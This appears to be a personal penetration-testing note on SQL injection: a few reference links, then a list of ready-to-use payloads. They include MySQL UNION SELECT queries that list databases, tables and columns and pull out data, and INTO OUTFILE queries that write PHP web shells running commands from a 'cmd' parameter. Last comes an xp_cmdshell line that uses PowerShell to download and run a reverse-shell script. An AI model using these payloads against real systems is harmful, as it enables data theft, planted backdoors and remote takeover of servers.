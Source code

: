 ```yaml
---
category: Uncategorized
tags: []
---
```

Check out:
https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/

https://www.exploit-db.com/papers/13650

[https://www.imperva.com/learn/application-security/sql-injection-sqli/](https://www.imperva.com/learn/application-security/sql-injection-sqli/)

![[Pasted image 20220712135953.png]]


Retrieve database version:
```SQL
UNION ALL SELECT NULL, version() -- -
```

List the databases:

```SQL
UNION ALL SELECT NULL, concat(schema_name) FROM information_schema.schemata -- -
```

Retrieve table names:

```SQL
UNION ALL SELECT NULL, concat(table_name) FROM information_schema.TABLES WHERE table_schema=database() -- -
```

Retrieve column names:

```SQL
UNION ALL SELECT NULL, concat(column_name) FROM information_schema.COLUMNS WHERE table_schema=database() -- -
```

Retrieve data:

```SQL
UNION ALL SELECT NULL, (0x28, column1, 0x3a, column2, 0x29) FROM table1 -- -
```

Retrieve data from different database:

```SQL
UNION ALL SELECT NULL, (0x28, column1, 0x3a, column2, 0x29) FROM databaseName.table1 -- -
```

#### Using INTO OUTFILE to create a malicious PHP file:
```SQL
http://$TARGET/debug.php?id=1 union all select 1,2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

```SQL
http://$TARGET/debug.php?id=1 UNION SELECT '<?php echo shell_exec($_GET[\'cmd\']); ?>', null INTO OUTFILE '/var/www/cmd.php' #
```

```SQL
' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/command.php'  -- -' 
```

#### Windows box cmdshell trick:
```SQL
xp_cmdshell "powershell -IEX(New-Object Net.WebClient).DownloadString('http://$TARGET/Invoke-PowerShellTcp.ps1')"
```